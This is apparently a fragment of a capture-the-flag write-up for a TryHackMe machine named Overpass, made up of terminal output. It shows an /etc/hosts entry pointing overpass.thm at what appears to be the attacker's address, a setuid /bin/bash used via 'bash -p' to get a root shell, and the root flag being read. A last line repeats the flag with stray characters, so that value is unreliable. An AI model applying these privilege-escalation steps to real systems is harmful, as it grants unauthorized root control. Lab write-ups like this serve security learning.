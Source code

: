 ```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.8.106.222 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

```
james@overpass-prod:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
james@overpass-prod:~$ /bin/bash -p
bash-4.4# ls
linpeas.log  linpeas.sh  todo.txt  user.txt
bash-4.4# cd /root
bash-4.4# ls
buildStatus  builds  go  root.txt  src
bash-4.4# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
bash-4.4#
```

`thm{7f336f8c359dbac18d54fdd64ea753bb12**123:))}`
